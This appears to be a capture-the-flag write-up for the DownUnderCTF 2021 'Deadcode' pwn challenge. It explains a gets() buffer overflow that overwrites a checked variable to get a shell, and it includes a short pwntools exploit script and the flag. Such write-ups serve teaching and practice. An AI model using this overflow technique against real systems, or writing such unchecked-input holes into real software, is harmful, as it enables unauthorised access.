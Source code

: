 # Deadcode

![](/2021/DownUnderCTF2021/Deadcode/Images/1.png)

An easy pwn challenge of DownUnderCTF 2021

Let use IDA to reverse program

![](/2021/DownUnderCTF2021/Deadcode/Images/2.png)

This is the simple buffer overflow task, the gets function causes a buffer overflow error, allows us to enter more than 24 characters (the length of the v4 array) and overwrites the v5 variable. Then the program checks if v5 == 0xDEADC0DE , we get the shell. The v4 variable is located at rbp-0x20, the v5 variable is located at rbp-0x8, so the distance is 0x18. Enter 0x18 characters ‘A’ and 0xDEADC0DE, we solved the challenge.

File [solve.py](/2021/DownUnderCTF2021/Deadcode/solve.py)

```python
from pwn import *
s = remote('pwn-2021.duc.tf', 31916)
s.sendline(b'A' * 0x18 + p32(0xDEADC0DE))
s.interactive()
```

![](/2021/DownUnderCTF2021/Deadcode/Images/3.png)

`flag: DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}`
